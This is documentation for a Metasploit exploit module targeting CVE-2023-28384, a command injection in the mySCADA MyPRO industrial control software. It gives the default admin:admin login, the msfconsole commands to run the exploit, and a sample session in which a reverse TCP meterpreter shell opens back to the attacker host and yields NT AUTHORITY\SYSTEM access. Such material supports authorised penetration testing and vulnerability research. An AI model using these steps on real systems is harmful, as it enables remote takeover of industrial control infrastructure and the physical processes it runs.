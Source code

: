 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO <= v8.28.0 (CVE-2023-28384).

An authenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`NT AUTHORITY\SYSTEM`.
This module uses the default admin:admin credentials, but any account configured on the system can be used to exploit this issue.

Versions <= 8.28.0 are affected. CISA published [ICSA-23-096-06](https://www.cisa.gov/news-events/ics-advisories/icsa-23-096-06) to cover
the security issues. The official changelog for the updated version, v8.29.0, is available
[here](https://web.archive.org/web/20230320130928/https://www.myscada.org/changelog/?section=version-8-29-0), although it only mentions a
"General security improvement" without further details.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](http://nsa.myscada.org/myPRO/WIN/myPRO_x64_8.28.0.exe).
For the product to work correctly, the project and log directories need to be configured first, which can be done through the web inteface
(navigate to System > Storage).

**Successfully tested on**

- mySCADA MyPRO 8.28.0 on Windows 10 22H2
- mySCADA MyPRO 8.27.0 on Windows 10 22H2
- mySCADA MyPRO 8.26.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Configure the project and log paths (System > Storage in the web interface, running by default on TCP ports 80 & 443)
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/mypro_cmdexe
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf6 exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Options
### USERNAME

The username of a MyPRO user (default: admin)

### PASSWORD

The associated password of the MyPRO user (default: admin)

## Scenarios

Running the exploit against MyPRO v8.28.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Checking credentials...
[+] Credentials are working.
[*] Sending command injection...
[*] Sending stage (201798 bytes) to 192.168.1.239
[*] Meterpreter session 12 opened (192.168.1.241:4444 -> 192.168.1.239:57382) at 2024-07-23 23:38:12 -0400
[*] Exploit finished, check thy shell.

meterpreter > shell
Process 2632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

